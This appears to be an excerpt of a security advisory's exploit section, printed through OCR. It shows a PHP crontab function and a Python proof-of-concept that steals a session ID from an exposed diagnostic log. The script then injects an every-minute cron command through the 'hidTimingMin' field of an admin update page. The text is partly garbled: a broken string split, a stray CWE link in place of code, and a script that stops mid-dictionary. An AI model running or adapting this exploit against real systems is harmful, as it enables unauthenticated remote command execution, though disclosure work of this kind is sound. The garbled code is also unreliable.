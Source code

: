 ```
    else
        return false;
}

function addToCrontab(){
    if(!$this->filename)
        exit('No name specified for cron file');
        $data=array();
        exec("crontab ".escapeshellarg($this->directory.$this->filename),$data,$ret);

        if($ret==0)
            return true;
        else
            return false;
}
```              

The following python script creates a cron job that will run an arbitrary command on every minute. It also leverages the session hijacking vulnerability described in 7.1 to bypass the need of authentication.
    
    
      
```
#!/usr/bin/env python

import requests
import sys

def exploit(host, port, command):
    session_id = get_session_id(host, port)
    print "[+] Obtained session id %s" % session_id
    execute_command(session_id, host, port, command)

def get_session_id(host, port):
    url = "https://%s:%d/widget/repository/log/diagnostic.log" % (host, port)
    r = requests.get(url, verify=False)
    for line in r.text.split('n')[::-1]:
        if "INFO" in line or "ERROR" in line:
            return line.split(',')(http://cwe.mitre.org/data/definitions/98.html)

def execute_command(session_id, host, port, command):
    print "[+] Executing command '%s' on %s:%d" % (command, host, port)
    url = "https://%s:%d/php/admin_update_program.php?sid=%s" % (host, port, session_id)
    multipart_data = {
        "ComponentSchedule": "on",
        "ComponentScheduleOS": "on",
        "ComponentScheduleService": "on",
        "ComponentScheduleWidget": "on",
        "useAUSchedule": "on",
        "auschedule_setting": "1",
        "update_method": "1",
        "update_method3": "on",
        "userfile": "",
        "sid": session_id,
        "hidComponentScheduleOS": "1",
        "hidComponentScheduleService": "1",
        "hidComponentScheduleWidget": "1",
        "hidUseAUSchedule": "1",
        "hidScheduleType": "1",
        "hidTimingDay": "2",
        "hidTimingHour": "2",
        "hidTimingMin": "* * * * * %s #" % command,
        "hidUpdateOption": "1",
        "hidUpdateNowFlag": ""
```